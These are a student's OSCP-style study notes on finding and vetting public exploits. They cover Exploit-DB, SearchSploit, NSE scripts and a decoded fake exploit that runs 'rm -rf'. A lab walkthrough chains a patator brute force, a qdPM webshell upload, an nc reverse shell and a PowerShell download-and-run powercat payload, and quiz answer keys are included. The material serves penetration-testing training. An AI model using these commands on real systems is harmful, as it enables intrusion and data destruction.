


# Module 13: Locating Public Exploits

## Tags
#OSCP #Module13 #PublicExploits #ExploitDB #SearchSploit #NmapNSE #ExploitFrameworks

---

## **Why This Module Matters**

Not every vulnerability needs a hand-built payload.

A big chunk of real pentest work looks like this: find a service, work out its exact version, then go check whether someone's already published working exploit code for it. That's it. Knowing *where* to look for that code, and just as importantly, knowing how to tell a safe exploit from a booby-trapped one before you run it, is a real skill on its own. It's a different skill from writing exploits yourself.

**✅ Status: Module complete.** All four theory sections and all four labs (including the capstone) are done, see the **Outstanding Sections** checklist at the very bottom.

Four learning units in this module:
1. Getting started, mainly the risk of blindly running someone else's code
2. Online exploit resources
3. Offline exploit resources
4. A full worked example that ties all of it together against a real target

---

## 13.1. Getting Started

**The core risk, stated plainly:** a "public exploit" is just someone else's code sitting on the internet. Nothing stops that code from doing something completely different from what it claims to do. Read and understand what an exploit actually does *before* you run it. Every time. Especially on a real client engagement where you could genuinely break something.

### 13.1.1. A Word of Caution

**Case study: 0pen0wn, an "SSH remote exploit" that was actually malware in disguise.**

First red flag, right there in the source code: it demanded root privileges, but on the *attacking* machine, not the target.
```c
if (geteuid()) {
  puts("Root is required for raw sockets, etc."); return 1;
}
```
*Stop and think about that for a second. A real remote SSH exploit has no legitimate reason to need root on your own box. "Raw sockets" sounds like a plausible technical excuse if you don't look too closely, but it isn't actually a real requirement for this kind of attack.*

> 📸 Screenshot: the suspicious `geteuid()` check, if working through this case study in a text editor/browser

Second red flag, a suspicious-looking hex-encoded byte array pretending to be shellcode:
```c
char jmpcode[] =
"\x72\x6D\x20\x2D\x72\x66\x20\x7e\x20\x2F\x2A\x20\x32\x3e\x20\x2f"
"\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x26";
```

Don't just trust that it's shellcode because it looks like shellcode. Decode it and see for yourself:
```python
>>> jmpcode = ["\x72\x6D\x20\x2D\x72\x66\x20\x7e\x20\x2F\x2A\x20\x32\x3e\x20\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x26"]
>>> print(jmpcode)
['rm -rf ~ /* 2> /dev/null &']
```
*Not shellcode at all. It's a plain shell command that wipes out the attacker's own home directory, silently, then (per the module) phones home to an IRC channel to brag about it. A "remote SSH exploit" that just nukes whoever's dumb enough to run it.*

> 🔗 **CyberChef**: [gchq.github.io/CyberChef](https://gchq.github.io/CyberChef/), has a "From Hex" recipe that does exactly what the Python snippet above does, paste the hex bytes in, no terminal needed if you'd rather work in a browser tab.

**The takeaways to carry forward:**
- Even the "trustworthy" repositories (Exploit-DB, Packet Storm) vet submissions before hosting them. Reading the code yourself is still worth doing anyway, both for safety, and honestly, it's good practice for reading unfamiliar code in general.
- If an exploit ships as both source code and a compiled binary, read the source. It's much easier to spot something dodgy in readable code than in a compiled blob.
- If you genuinely can't read the code (wrong language, obfuscated, or you just want extra safety), spin up a disposable VM with a clean snapshot and test it there first. Worst case, a hostile payload costs you a snapshot revert instead of your actual attack box.

**Lab status: ✅ Completed** (both of these are answerable straight from the reading above, no VM needed):

| Question | Answer |
|---|---|
| True/False: it's important to read exploit code before executing it | **True** |
| Safe way to test an exploit? | **C. Execute the exploit in a controlled virtual machine environment to observe its behavior** |

#### Tags: #Lab #Quiz #Module13 #0pen0wn #ExploitVetting #Sandboxing

---

## 13.2. Online Exploit Resources

### 13.2.1. The Exploit Database

**[Exploit-DB](https://www.exploit-db.com/)** (usually just called EDB), maintained by OffSec. A free archive of public exploits, gathered from submissions, mailing lists, and various public sources around the web.

> 📸 Screenshot: the Exploit-DB homepage, worth grabbing once so you remember what the listing columns look like

**The columns worth knowing, browsing the homepage:**
- **D**: a quick-download link for the exploit file itself
- **A**: the vulnerable application file, if one's provided, handy for setting up your own test copy
- **V**: a verified checkmark, meaning a trusted reviewer actually ran it and confirmed it works
- **Title**: vulnerable app name + version + what the exploit actually does
- **Type**: one of `dos`, `local`, `remote`, `webapp`
- **Platform**: whatever's affected, an OS, a piece of hardware, a language runtime
- **Author**

Every exploit gets a unique numeric **EDB-ID** (it's also the last part of the exploit's URL, easy to spot). Where a **CVE** exists for the same bug, that's listed too. The exploit's actual code is shown right there on the page, so you can do a quick read-through before even downloading anything.

> 📸 Screenshot: a specific exploit's detail page, showing the EDB-ID, CVE, and inline code

Updates get announced on Twitter and via RSS, worth following if you want to stay on top of fresh disclosures.

**Lab status: ✅ Completed:**

| Question | Answer |
|---|---|
| True/False: Exploit-DB is free to access and use | **True** |
| Which field designates the type of system the exploit impacts? | **Platform** |
| Not a valid exploit type? | **D. compiled** (the real ones are `dos`, `local`, `remote`, `webapp`) |
| Authors of the exploit with EDB-ID 35273? | **ryujin & sickness** (checked directly on the actual page: "Microsoft Internet Explorer 8 - Fixed Col Span ID (Full ASLR + DEP + EMET 5.1 Bypass) (MS12-037)") |
| True/False: the EDB Verified checkmark means a trusted individual reviewed, executed, and confirmed the exploit works | **True** |

#### Tags: #Lab #Quiz #Module13 #ExploitDB #EDBID

---

### 13.2.2. Packet Storm

**[Packet Storm](https://packetstormsecurity.com/)** is a bit broader than Exploit-DB. Think of it as a security-news-plus-exploits-plus-tools site, it also hosts legitimate security tools published by vendors, not just exploit proof-of-concepts.

> 📸 Screenshot: the Packet Storm homepage

Same update pattern as Exploit-DB, Twitter and RSS.

#### Tags: #PacketStorm #ExploitResources

---

### 13.2.3. GitHub

Anyone can publish anything on GitHub. That's the whole point of it, and it's also exactly why it's riskier as an exploit source than Exploit-DB or Packet Storm. Nobody's vetting a random repo before you clone it.

There's a real, documented example of this going wrong: a researcher publicly warned that a specific "exploit" hosted on GitHub would actually backdoor anyone who ran it, not do the thing it claimed to do at all.

> 📸 Screenshot: a GitHub repo you're evaluating, and/or the kind of community warning described above, if you come across one in your own searching

**Why bother with GitHub at all then?** Speed. A working proof-of-concept for a brand-new CVE can show up on GitHub within hours of disclosure, long before it'd ever make it through Exploit-DB's or Packet Storm's review process. Genuinely useful, just treat every unvetted repo the same way 13.1 already told you to treat everything: read it before you run it.

OffSec has its own GitHub presence too, including [`exploitdb-bin-sploits`](https://github.com/offensive-security/exploitdb-bin-sploits), a collection of pre-compiled exploits ready to run.

> **Heads up (checked 2026-08-07):** that specific repo is now archived and read-only. The maintained version lives at [gitlab.com/exploit-database/exploitdb-bin-sploits](https://gitlab.com/exploit-database/exploitdb-bin-sploits) now. Worth knowing, since the module's own text still points at the old location.

#### Tags: #GitHub #ExploitVetting #UnvettedSources

---

### 13.2.4. Google Search Operators

You don't need to rely purely on the dedicated exploit sites either. Regular search-engine operators narrow down exploit hunting fast, same trick already covered back in [[06. Information Gathering#6.2.2. Google Hacking|6.2.2, Google Hacking]], just aimed at finding exploits specifically instead of general recon.

```bash
firefox --search "Microsoft Edge site:exploit-db.com"
```
*`site:` limits results to one domain. Combine it with `inurl`, `intext`, `intitle` the same way you would for any other Google dork.*

**Same caution as 13.1 applies here too**, a search engine doesn't vet anything, it just finds things. Whatever you land on still needs its own read-through.

#### Tags: #GoogleDorking #SearchOperators #ExploitDB

---

## 13.3. Offline Exploit Resources

You won't always have internet access during an engagement. Kali ships offline exploit access specifically for that situation.

### 13.3.1. Exploit Frameworks

An exploit framework is a standardized package of ready-to-run exploits. A few worth knowing about:

- **Metasploit**: built by H D Moore in 2003, now owned by Rapid7. Has a free community edition and a paid Pro version. This module only introduces it, it gets a whole dedicated module of its own later.
- **Core Impact**: owned by HelpSystems, no free tier at all. Can automate testing, hook into vulnerability scanners, run phishing campaigns, and even re-test a system after remediation to confirm a fix actually worked.
- **[Canvas](https://immunitysec.org/products/canvas/)**: a commercial framework from **Immunity Inc** (founded by Dave Aitel). Ships with 800+ exploits and full source code included in the license, and runs cross-platform anywhere Python does. *(This detail isn't in the module's own text, checked it directly since the module only names the company, not who's behind it.)*
- **BeEF** (Browser Exploitation Framework): purpose-built for client-side attacks that run inside a victim's web browser.

**Lab status: ✅ Completed:**

| Question | Answer |
|---|---|
| True/False: there's a free version of Metasploit | **True** (the community edition) |
| What company made Canvas? | **Immunity Inc** |

#### Tags: #Lab #Quiz #Module13 #Metasploit #CoreImpact #Canvas #BeEF #ExploitFrameworks

---

### 13.3.2. SearchSploit

This is the offline version of Exploit-DB, a local mirror of the entire archive, shipped in Kali as the `exploitdb` package.

**Step 1: Keep it updated**
```bash
sudo apt update && sudo apt install exploitdb
```
*This refreshes the local copy under `/usr/share/exploitdb/`. Worth running before every assessment, not just once when you first install Kali, exploits get added constantly.*

**Step 2: Get a feel for how the archive's laid out**
```bash
ls -1 /usr/share/exploitdb/
```
Expect: `exploits`, `files_exploits.csv`, `shellcodes`, `files_shellcodes.csv`

```bash
ls -1 /usr/share/exploitdb/exploits
```
Expect a long list of folders split by OS/architecture/language: `aix`, `alpha`, `android`, `arm`, `ashx`, `asp`, `aspx`, and so on.

*Those CSV files carry the same metadata you'd see on the website (EDB-ID, title, author, platform). You could technically browse this by hand, but that's exactly the tedious job `searchsploit` exists to save you from.*

**Step 3: Actually search it**
```bash
searchsploit remote smb microsoft windows
```
*By default `searchsploit` is case-insensitive, matches every term you give it (not just any one), searches both the title and the file path, and even fuzzy-matches version ranges, so a search for `1.1` will still catch something documented as `1.0 < 1.3`.*

**The options worth remembering:**

| Flag | What it does |
|---|---|
| `-c` | case-sensitive search |
| `-e` | exact + ordered title match (this also switches on `-t`) |
| `-s` | strict mode, turns off the fuzzy version-range matching |
| `-t` | search titles only, skip the file paths |
| `--exclude="term1\|term2"` | filter results out |
| `-j` | output as JSON |
| `-p [EDB-ID]` | show the full path (and copy it to your clipboard) |
| `-v` | more verbose output |
| `-w` | show Exploit-DB.com URLs instead of local file paths |
| `-m` | **copy the exploit into your current directory** |
| `--id` | show the EDB-ID instead of the local path |

**Step 4: Copy an exploit out so you can actually work on it**
```bash
searchsploit -m windows/remote/48537.py
```
or, the same thing by EDB-ID instead of path:
```bash
searchsploit -m 42031
```
*Always copy an exploit out before editing it. Every time `exploitdb` gets updated via `apt`, everything under `/usr/share/exploitdb/` gets overwritten, so any changes you made in place just vanish. Copying to your own working directory also keeps your engagement's exploits organized separately from the master archive.*

> 🔗 Full manual: [exploit-db.com/searchsploit](https://www.exploit-db.com/searchsploit)
> 🔗 **PayloadsAllTheThings**: [github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings), if `searchsploit` comes up empty for a specific web app CVE, this repo's per-technology folders (SQL Injection, File Upload, etc) are worth checking too, complements Exploit-DB rather than replacing it.

**Lab status:**

| Question | Answer |
|---|---|
| What package must be installed for searchsploit + an updated Exploit-DB copy? | **`exploitdb`** |
| Full searchsploit command for terms `php`, `webdav`, `windows`, in order? | **`searchsploit php webdav windows`** |
| Option to copy a found exploit to the current working directory? | **`-m`** |

**✅ Completed, all seven of these were actually run for real on Kali, not guessed:**

| Question | Answer |
|---|---|
| EDB-ID of "Arm Whois 3.11 - Buffer Overflow (SEH)"? | **45796** |
| Copy EDB-ID 45796, what's the affected software version (numbers only)? | **3.11**, straight from the file's own `# Version: 3.11` header comment |
| EDB-ID of the EternalBlue exploit targeting Windows 2012 x64? | **42030**, `Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB Remote Code Execution`. This was the only result with an explicit `(x64)` in the title, there's a similar-looking one (42315) too, but it covers several OS versions generically without calling out x64 specifically |
| EDB-ID of the Linux privesc exploit against Kernel 2.6.22 via SUID? | **40616**, `Linux Kernel 2.6.22 < 3.9 (x86/x64) - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (SUID Method)`. Had to re-run with `-o` (let titles overflow) since the default output truncated the title and hid the "SUID Method" part |
| EDB-ID of the Linux SquirrelMail RCE Metasploit module? | **16888**, `SquirrelMail PGP Plugin - Command Execution (SMTP) (Metasploit)`, path `linux/remote/16888.rb`. The only result that's both in the Linux/remote category *and* an actual `.rb` Metasploit module file |
| EDB-ID of the HTML Injection exploit for WebCT 4.1.5? | **31337**, `WebCT 4.1.5 - Email and Discussion Board Messages HTML Injection`, one single clean match |
| EDB-ID of the Remote Keylogger Bind Shellcode generator for Windows x64? | **45743**, `Windows/x64 - Remote (Bind TCP) Keylogger Shellcode (864 bytes) (Generator)`, this one shows up under Shellcodes rather than Exploits |

> 📋 Generalized copy-pasteable commands for this technique: [[13. Locating Public Exploits#SearchSploit|Command Appendix]]
> 🧭 Quick lookup: [[Locating Public Exploits (Decision Tree)|Decision Tree]]

#### Tags: #Lab #Quiz #Module13 #SearchSploit #ExploitdbPackage

---

### 13.3.3. Nmap NSE Scripts

Some NSE scripts go a step further than plain enumeration, they actively **exploit** things. You've already seen this in action back in [[07. Vulnerability Scanning#7.3.1. NSE Vulnerability Scripts|7.3.1]] (the `vulners` script) and [[07. Vulnerability Scanning#7.3.2. Working with NSE Scripts|7.3.2]] (confirming CVE-2021-41773).

**Find which scripts are actually exploit-capable:**
```bash
grep Exploits /usr/share/nmap/scripts/*.nse
```
*`Exploits` (capital E, matching how the scripts describe themselves internally) is a fast, reliable thing to grep for across the whole scripts folder.*

**Get more detail on a specific one:**
```bash
nmap --script-help=clamav-exec.nse
```
*Shows you the category (`exploit`, `vuln`, etc), a description of the underlying vulnerability, and reference links. Same due-diligence habit from 13.1, worth checking what a script actually does before pointing it at something.*

**Lab status: ✅ Completed:**

| Question | Answer |
|---|---|
| True/False: all NSE scripts can execute exploits | **False**, most are just enumeration, discovery, or brute-force, only a subset are actually tagged `exploit` |
| Easy grep string to find exploit scripts? | **`Exploits`** |
| Default NSE scripts location on Kali? | **`/usr/share/nmap/scripts`** |
| Option for more info on an NSE script? | **`--script-help`** |

#### Tags: #Lab #Quiz #Module13 #NmapNSE #ScriptHelp

---

## 13.4. Exploiting a Target

Time to see all of this working together on a real target. This is the module's own full worked walkthrough, target `192.168.50.11`, attacking from `192.168.50.129`. It's a genuinely good example of how many moving pieces a real engagement can have at once, keeping careful notes matters here just as much as the technique itself, see [[05. Report Writing For Pen Testers|Report Writing For Pen Testers]] for why.


*Nine distinct tools/techniques from earlier in this vault, chained into one real exploitation. This is what "putting it together" actually looks like in practice, not a single command.*

**Step 1: Port scan.** Two ports open: 22 (SSH) and 80 (HTTP). SSH is usually not worth attacking head-on, so the web service gets the attention.

**Step 2: Browse the site.** It's the homepage for a fictional "AI development company." Their About Us page happens to list staff names and email addresses. Nothing exploitable yet, but worth remembering, those emails matter later.

> 📸 Screenshot: the site's homepage and About Us page

**Step 3: Directory enumeration** (same idea as [[08. Introduction to Web Application Attacks#8.2.3. Directory Brute Force with Gobuster|8.2.3]], or [[Feroxbuster]] if you'd rather use the faster tool) turns up a hidden `/project` path, a login portal for **qdPM 9.1**. The version number shows up right in the page footer, or in the raw HTML source if it's not visible on the rendered page:
```html
<div class="copyright">
     <a href="http://qdpm.net" target="_blank">qdPM 9.1</a> ...
</div>
```

> 📸 Screenshot: the qdPM login portal, and the version string in the page source

**Step 4: Search Exploit-DB for `qdPM 9.1`.** A few results come back, but one stands out: **verified, remote, RCE**. That combination (someone's confirmed it works, it's exploitable over the network, and it gets you code execution) is exactly what you want to prioritize when you have a choice.

Reading the code first, per 13.1's whole point: it needs valid login credentials for the app (email address as the username), and once it has them, it uploads a webshell.

**Step 5: No password yet, so build a targeted wordlist with `cewl`:**
```bash
cewl http://192.168.50.11/ -w wordlist.txt
```
*`cewl` scrapes a site's own text for candidate words. A wordlist built from the actual target (company name, industry jargon, whatever shows up on the page) tends to beat a generic one when the target has any distinctive vocabulary at all. Save the emails found back in Step 2 into a separate `emails.txt` file too, that becomes the username list.*

**Step 6: Brute-force the login with `patator`.** This form has CSRF protection, which makes the command a bit more involved than a plain login brute-force:
```bash
patator http_fuzz \
    url=http://192.168.50.11/project/index.php/login \
    method=POST \
    body='login[_csrf_token]=_TOKEN_&login[email]=FILE0&login[password]=FILE1&http_referer=' \
    0=emails.txt \
    1=wordlist.txt \
    before_urls=http://192.168.50.11/project/index.php/login \
    before_egrep='_TOKEN_:name="login\[_csrf_token\]"[^>]*value="([^"]*)"' \
    accept_cookie=1 \
    follow=0 \
    -x ignore:clen=116
```

*Worth actually understanding this one rather than just copy-pasting it, CSRF protection means the login form ties a one-time token to your session cookie, so every single guess needs three things working together at once:*
- *`before_urls` fetches the login page fresh, right before every single attempt*
- *`before_egrep` pulls that page's current token out and drops it into the `_TOKEN_` placeholder used in the POST body*
- *`accept_cookie=1` carries the matching session cookie forward onto that same POST request*

*Miss any one of those three and every attempt either gets rejected outright by the CSRF filter, or worse, comes back with a 302 redirect that looks identical whether the login actually succeeded or not. That's where `-x ignore:clen=116` earns its keep: both success and failure return a 302, but the success page's Content-Length (111 bytes) differs from the failure page's (116 bytes). Filtering by response size is genuinely the only way to spot a real hit in this specific setup.*


*Why a naive Hydra-style brute force can't work here at all: the token has to be re-fetched and the cookie re-attached fresh, every single guess, not once at the start.*

> 🎥 **Video:** ippsec's ["HackTheBox - Sense"](https://www.youtube.com/watch?v=d2nVDoVr0jE), confirmed via multiple independent writeups as covering this exact CSRF-token-plus-cookie brute-force pattern (fetch a fresh token, POST with it, distinguish hits by response characteristics), same underlying mechanism as the patator command above, different target application (pfSense, not qdPM). Content depth beyond that not personally verified.

Result: `george@AIDevCorp.org:AIDevCorp` turns out to be valid.

> 📸 Screenshot: the patator hit showing the successful credential pair

**Step 7: Copy the exploit and run it with those credentials:**
```bash
searchsploit -m 50944
python3 50944.py -url http://192.168.50.11/project/ -u george@AIDevCorp.org -p AIDevCorp
```
*The output prints a slightly worrying-looking error, "not able to use the designated admin account," but don't panic, the payload actually succeeded anyway: `Backdoor uploaded at -> http://.../uploads/users/420919-backdoor.php?cmd=whoami`. Worth remembering generally: an exploit's own printed error text isn't always a reliable signal that it failed. Verify independently before assuming the worst.*

**Step 8: Confirm code execution directly:**
```bash
curl http://192.168.50.11/project/uploads/users/420919-backdoor.php?cmd=whoami
```
Expect: `<pre>www-data</pre>`

**Step 9: Escalate the webshell into a proper reverse shell.** First, confirm `nc` is actually available on the target, and URL-encode the command this time since it contains characters that would otherwise break things:
```bash
curl http://192.168.50.11/project/uploads/users/420919-backdoor.php --data-urlencode "cmd=which nc"
```
Expect: `/usr/bin/nc`

Start a listener, then trigger the shell:
```bash
nc -lvnp 6666
```
```bash
curl http://192.168.50.11/project/uploads/users/420919-backdoor.php --data-urlencode "cmd=nc -nv 192.168.50.129 6666 -e /bin/bash"
```
*Same `--data-urlencode` discipline already covered back in [[10. SQL Injection Attacks#10.3.2. Automating the Attack|10.3.2]]'s troubleshooting box. A reverse-shell one-liner is packed with characters (`&`, spaces) that'll silently mangle a raw `curl --data` POST body if you don't encode them.*

> 🔗 **RevShells**: [revshells.com](https://www.revshells.com/) can generate this exact style of bash reverse shell one-liner (and its URL-encoded form) for you, if you'd rather not hand-encode it.
> 🔗 **PayloadsAllTheThings** Reverse Shell Cheatsheet: [github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), a maintained catalogue of one-liners across languages if bash isn't available on a future target.

Result: the shell lands as `www-data`.

> 📸 Screenshot: the caught reverse shell, `whoami`/`id` confirming `www-data`

**The module's own summary of the whole approach, worth keeping in mind for every future box:** enumerate the exact service and version (not just "some web app"), search for a matching exploit and prioritize verified + remote + RCE where you have a choice, read the code before you run it, and keep careful notes on everything the exploit actually needs (credentials, arguments, prerequisites). That last part is genuinely what separates "I found an exploit" from "I actually got a shell with it."

🔁 **Similar to:** the CSRF-token-plus-session-cookie handling here is a genuinely non-obvious, multi-piece requirement.

> 🔍 Full breakdown of all three pieces (`before_urls`, `before_egrep`, `accept_cookie`) and why every one is load-bearing: [[Locating Public Exploits (Breakdowns)#Patator's three-piece CSRF handling: before_urls, before_egrep, accept_cookie|Command Breakdowns]]

> 🔗 **HackTricks**: [github.com/HackTricks-wiki/hacktricks](https://github.com/HackTricks-wiki/hacktricks/blob/master/src/pentesting-web/csrf-cross-site-request-forgery.md), covers CSRF token mechanics and bypass techniques in more general depth, worth a read if a future target's token-handling doesn't match this exact pattern. *(Linked to the GitHub source, same paywall workaround as elsewhere in this vault.)*

> 📋 Generalized copy-pasteable commands for this technique: [[13. Locating Public Exploits#Patator: CSRF-Aware Login Brute Force|Command Appendix]] (cewl + patator) and [[13. Locating Public Exploits#SearchSploit|SearchSploit section]]
> 🧭 Quick lookup: [[Locating Public Exploits (Decision Tree)|Decision Tree]]

#### Tags: #Cewl #Patator #CSRFBypass #QdPM #SearchsploitUsage #WebShell #ReverseShell #DataUrlencode

---

## Labs

> 🚩 **Hands-on, VM spin-up required.** Four exercises here, per the established workflow: **PublicExploitsWalkthrough** (repeat the 13.4.1 case study live, on your own VM instance), **PublicExploits01**, **PublicExploits02** (both hinted, standalone targets), and a **Capstone** (**PublicExploits03**, no hand-holding this time, flag at `/home/challenge/flag.txt`).

### PublicExploitsWalkthrough

Same target shape as the module's own written walkthrough, just run for real this time instead of just read. This session's instance: `192.168.243.11`. Turned out to be the exact same setup, same "Artificial Intelligence Development Corporation" site, same four staff names (Jeremy/Alex/George/Vincent), same qdPM 9.1 install, same EDB-ID 50944 exploit, even the same cracked credential (`george@AIDevCorp.org:AIDevCorp`).

**Step 1: Scan and enumerate**
```bash
rustscan -a 192.168.243.11 -- -sC -sV
```
Found 22 (SSH, skipped) and 80 (Apache 2.4.41).

```bash
feroxbuster -u http://192.168.243.11/ -w /usr/share/wordlists/dirb/common.txt
```
Turned up `/project/index.php`, qdPM 9.1 confirmed via the page footer, exactly like the module's own walkthrough.

**Step 2: Find and review the exploit**
```bash
searchsploit qdpm 9.1
searchsploit -m 50944 && cat 50944.py
```
EDB-ID 50944 present, reviewed it first per 13.1, came back clean.

**Step 3: Build a wordlist and crack the login**
```bash
cewl http://192.168.243.11/ -w wordlist.txt
```
Then the same CSRF-aware `patator` command from 13.4's walkthrough, pointed at this instance. Result: `george@AIDevCorp.org:AIDevCorp` (302, response size 111, the success signature).

> **🛠️ Troubleshooting hit here, worth remembering for next time:** `patator` came back with `Hits/Done/Skip/Fail/Size: 0/0/0/0/0` twice in a row, instantly, before it had even tried a single combination. Wasn't a `patator` bug, and wasn't a broken CSRF regex either (double-checked that in isolation with a plain `curl | grep`, it matched fine). **The actual cause: `emails.txt` had never actually been created.** An earlier `cat > emails.txt << 'EOF'` heredoc simply hadn't run. `0/0/0/0/0` finishing in `0h 0m 0s` is the tell, it means patator computed *zero total candidate combinations* to try. If you ever see this, check the files you referenced with `ls -la` before suspecting the tool or the target.

**Step 4: Run the exploit**
```bash
python3 50944.py -url http://192.168.243.11/project/ -u george@AIDevCorp.org -p AIDevCorp
```
Backdoor uploaded to `.../uploads/users/770828-backdoor.php?cmd=whoami`.

**Step 5: Confirm execution and escalate to a reverse shell**
```bash
curl ".../770828-backdoor.php?cmd=whoami"
```
Confirmed `www-data`.
```bash
curl ".../770828-backdoor.php" --data-urlencode "cmd=which nc"
```
Confirmed `/usr/bin/nc` present.
```bash
nc -lvnp 6666
```
```bash
curl ".../770828-backdoor.php" --data-urlencode "cmd=nc -nv <kali_ip> 6666 -e /bin/bash"
```
Shell caught, `whoami`/`id` both confirmed `www-data`.

**No flag file on this particular target.** Checked with `find / -iname "flag*"` (only kernel `/sys/` noise came back), matches this exercise's own wording, "start and exploit the machine," no flag mentioned, unlike the Capstone later which explicitly names one.

A platform hint about "check the Downloads folder" also got checked as `www-data` (`/root/Downloads`, `/home/*/Downloads`), nothing reachable at that privilege level, confirming the web-enumeration path taken here was a genuinely valid route to the same goal, not something missed.

**Lab answer:** Exploited successfully, `www-data` reverse shell via CVE-2020-7246.

---

### PublicExploits01

A **Windows** machine, no credentials provided, genuinely the "figure it out yourself" version of this exercise. This one took a lot of digging, worth reading through properly since the lessons are more valuable than the final answer.

**Step 1: Scan the target**
```bash
rustscan -a <target_ip> -- -sC -sV
```
Open ports: 135/139/445 (SMB), 1978 (unrecognized by nmap, just showed a custom banner), 5985/5986/47001 (WinRM), plus a handful of ephemeral RPC ports. Two things stood out immediately: nmap reported `Service Info: Host: REMOTEMOUSE`, and port 1978's banner was `system windows 6.2\nluminateOK\n`. Both pointed at **RemoteMouse**, an app that turns a phone into a mouse/keyboard for the PC, listens on port 1978, and has a well-known history of unauthenticated RCE.

**Step 2: Find and review a matching exploit**
```bash
searchsploit remote mouse
searchsploit -m 46697 && cat 46697.py
```
Found EDB-ID 46697, `RemoteMouse 3.008 - Arbitrary Remote Command Execution`. Reading it first (per 13.1): it moves the mouse to the Start button in the bottom-left corner, clicks it, types a string using raw UDP keycodes, then hits Enter, essentially using Windows Search as an unauthenticated Run dialog. Nothing malicious hiding in it.

**Step 3: Two Python 2→3 porting bugs, fixed**

The script's own header says `#!/usr/bin/python2`, it was written for Python 2 and needed real fixes to run on Kali's Python 3:

1. Its version-check function compared `bytes` (what `.recv()` actually returns in Python 3) against a plain `str`. That comparison is *always* `False` in Python 3, no matter what the target actually sends back. Fixed by bypassing the check entirely, verified independently that RemoteMouse really was listening via a raw socket test first.
2. Every `socket.sendto()` call in the script passed a plain `str`, but Python 3 requires `bytes` there. Fixed mechanically with four targeted `sed` commands adding `.encode()` to each call, safer than hand-editing six scattered lines in a text editor and risking missing one.

**Step 4: Weaponize it for a reverse shell**

Built a two-stage version: launch a bare `powershell` via Windows Search first (a simple app name reliably launches), then, once that window has focus, type the actual reverse shell payload. This avoids relying on Windows Search correctly parsing a long, quoted command line all at once.

```python
def PopCalc(ip):
    MoveMouse(-5000,3000,ip)
    MousePress(mouse.leftClick,ip)
    sleep(1)
    SendString("powershell",ip)
    sleep(1)
    SendString("\n",ip)
    sleep(3)
    SendString("IEX(New-Object System.Net.WebClient).DownloadString('http://<kali_ip>:8000/powercat.ps1');powercat -c <kali_ip> -p 4444 -e powershell",ip)
    sleep(1)
    SendString("\n",ip)
```

**Still nothing happened.** Not even a simpler test (typing a bare URL to see if Windows Search would at least open a browser, something we could observe without needing eyes on the actual screen) produced any result. Neither the web server log nor the netcat listener ever showed a thing.

**Step 5: Rule out a delivery problem before doubting the technique**
```bash
sudo tcpdump -i tun0 udp port 1978 -n
```
Ran this alongside the exploit and confirmed thousands of well-formed 11-byte UDP packets genuinely leaving Kali and landing on the target. So the packets were arriving fine, the target just wasn't acting on them.

**The real clue was hiding in the banner mismatch the whole time.** The exploit's own version-check expects `"SIN 15win nop nop 300"` (unauthenticated) or `"SIN 15win pwd pwd 300"` (password set). This target sent neither, it sent `"system windows 6.2\nluminateOK\n"`. Dug into this further and found a separate 2021 research project ("MouseTrap") confirming the *same* keycode format this exploit uses, but still expecting that same `"SIN 15win..."` banner, so that didn't explain the mismatch either. A newer CVE for RemoteMouse 4.110 exists too, but every reference to it just pointed back to this same EDB-ID 46697, more of a retroactive CVE label than a genuinely different exploit.

**Where things stood at this point: genuinely stuck**, with a real, working delivery mechanism but no confirmed working payload for whatever this target's exact protocol actually was.

---

**🔓 Resolved on a fresh VM instance (`192.168.179.10`).** The platform's own hint turned out to be the key the whole time: *"check the Downloads folder on the machine and aggregate the information from that with the ports that are open."*

